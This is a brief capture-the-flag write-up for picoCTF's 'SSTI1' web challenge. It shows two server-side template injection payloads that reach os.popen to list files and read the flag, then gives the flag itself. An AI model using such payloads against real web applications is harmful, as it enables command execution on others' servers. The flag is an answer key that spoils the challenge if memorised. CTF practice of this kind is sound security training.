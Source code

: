 # [SSTI1 (Web Exploitation, Easy)](https://play.picoctf.org/practice/challenge/492)

- Description: I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:58745/)!
  - <img width="507" height="137" alt="image" src="https://github.com/user-attachments/assets/d1bc2c5f-04d9-404e-97cb-3dd02227d879" />

- Solution:
  ```txt
  {{request.application.__globals__.__builtins__.__import__('os').popen('ls -R').read()}}
  ```
  <img width="1275" height="550" alt="image" src="https://github.com/user-attachments/assets/f9a0367d-19a4-49bb-b261-7a8e629fdc3e" />

  ```txt
  {{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
  ```
  <img width="969" height="44" alt="image" src="https://github.com/user-attachments/assets/c4ecbf03-6aba-4b07-bf5a-c1070f7c0614" />

  

- Flag: `picoCTF{1t5_ju5t_4_5tr1n9_c63b02ef}`
- Explanation:
